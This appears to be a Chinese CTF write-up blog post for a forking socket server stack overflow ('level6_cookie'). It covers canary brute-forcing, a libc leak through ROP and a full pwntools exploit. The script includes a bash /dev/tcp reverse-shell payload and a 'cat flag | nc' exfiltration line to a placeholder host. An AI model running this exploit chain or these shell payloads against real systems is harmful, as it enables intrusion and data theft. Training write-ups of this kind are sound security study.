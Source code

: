 ```yaml
---
layout: post
title: "cookie爆破"
date: 2018-05-23
categories: jekyll update
---
```

### level6_cookie


这是一个简单的**socket服务器栈溢出**的题目
### 溢出漏洞点
<img src="/images/posts/keen/1530851457324.png" >

**特点：fork子程序，从同一片内存申请，cookie值一样，可以爆破**

**这里本地调试需要先创建一个具有root权限的level6，然后用该用户来执行该程序，注意这里需要先起一个服务器，然后再nc连上去进行调试**

### 一些小知识点和疑问
```
TCP反连；nc反弹shell：cat flag | nc xxx.xxx.xx.xx 8888
关于反弹shell的一些资料参考：
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
https://www.gnucitizen.org/blog/reverse-shell-with-bash/
疑问：为什么cookie会距离ebp有12byte这么远？
尝试解答：是不是这个ebp是主函数main的，而不是子函数的。所以中间还隔了一个子函数的ebp
SIGCHLD
进程Terminate或Stop的时候，SIGCHLD会发送给它的父进程。缺省情况下该Signal会被忽略
```

### 调试用到的命令：
```
print system #看泄露出来的地址是否与链接库的地址相同
info proc   #查看进程号
cat /home/level6/9441/fd  #查看fd可能的值(标准输入/出和默认值)
ROPgadget --binary cookie #查找ROP
ps -aux | grep cookie #查看当前运行进程
info proc all  #查看一些程序运行的信息
set follow-fork-mode child  #fork之后调试子进程，父进程不受影响。
上面一条命令参考链接：https://www.ibm.com/developerworks/cn/linux/l-cn-gdbmp/index.html
```
### 做题过程中遇到的问题和解决办法
+  对C语言写的socket不熟悉，需要去了解其中的流程(但其实对解题没太大的影响)
+  主要是这里用到了fork子进程来进行执行输入的，所以每次输入都会从同一个内存片段去取cookie(只要这个进程没断就是从同一片内存中取值)
+  一段时间没做题，调试起来有点生疏，调试的时候注意考虑下断点的位置，然后逐步ni单步查看执行的整个流程是否符合我们设置的跳转
+  这次调试不出来主要是参数个数问题，c语言里面没有默认参数为0这个说法，需要查好调用每一个函数的参数个数和值进行一一配置。
+  不必要的send多次payload可以通过ROP连接起来，灵活利用，灵活操作。

### 本题主要思路
+ 配置好本地调试的服务器环境(具有root权限的level6)
+ 爆破cookie
+ 确定溢出位置和溢出长度
+ 泄露send地址
+ 确定下断点位置：0x08048C47进行调试
+ 找到一个可写的地址，通过recv接收数据写到那个地址上，再把该地址作为参数给到system来调用即可getshell

### 具体详细代码
```
#! /usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
context.log_level='debug'

IP = '192.168.210.11'
#IP = '192.168.23.130'
PORT = 10006
NORMAL_RET_ADDR = 0x804897b
TEST_FINI = 0x8048fc0

canary = "\x00"
padding = "a"*64
"""
for x in xrange(3):
    for y in xrange(256):
        with remote(IP, PORT) as p:
            if y == 10:
                continue
            p.send(padding+canary+chr(y) + chr(10))
            try:
                info = p.recvuntil('GoodBye')
		p.close()
		break
            except Exception as e:
                print('exception %s' % e)
		p.close()
                continue
    print('got single byte %x' % y)
    canary += chr(y)
print "cookie bruteforce complete with cookie = " + hex(u32(canary))
"""
canary = p32(0xb28dff00)
#canary = p32(0xc6586e00)
p = remote(IP, PORT)
libc = ELF('libc.so.6')
#libc = ELF('/lib/i386-linux-gnu/libc.so.6')
elf = ELF('cookie')
send_plt = elf.plt['send']
send_got = elf.got['send']
vuln_addr = 0x0804897B
payload1 = 'a'*64 + canary +'a'*12 + p32(send_plt) + p32(0) + p32(4) + p32(send_got) + p32(4) + p32(0)
p.sendlineafter('Would you like some cookie?\n', payload1)
#0xb7587000
#p.recvline()
#p.recv()
recved = p.recv()
#print(recved)
print(len(recved))
send_addr = u32(recved)
p.info('send addr %x' % send_addr)

libc_base = send_addr - libc.symbols['send']
p.info('libc base %x' % libc_base)

system_addr = libc_base + libc.symbols['system']
system_cmd = 'ls'
p.info('system addr %x' % system_addr)
recv_plt = elf.plt['recv']
writable_addr = 0x804b07c

p = remote(IP, PORT)
pause()
payload2 = 'bash -i >& /dev/tcp/xxx.xxx.xx.xx/8888 0>&1'.ljust(64, '\x00') + canary + 'a' * 12 + p32(recv_plt) + p32(system_addr) + p32(4) + p32(writable_addr) + p32(100) + p32(0)
'''
payload2 = 'bash -i >& /dev/tcp/xxx.xxx.xx.xx/8888 0>&1'.ljust(64, '\x00') + canary + 'a' * 12 + p32(recv_plt) + p32(0x08048fb8) + p32(4) + p32(writable_addr) + p32(100) + p32(0) + p32(system_addr) + p32(0) + p32(writable_addr)
'''
p.sendlineafter('Would you like some cookie?', payload2)
p.send('cat flag | nc xxx.xxx.xx.xx 8888'.ljust(100, '\x00'))


payload3 = 'a' * 64 + canary + 'a' * 12 + p32(system_addr) + p32(0) + p32(writable_addr)
p.info('system %x' % system_addr)
p.close()
p = remote(IP, PORT)
p.sendlineafter('Would you like some cookie?', payload3)
#p.interactive()

```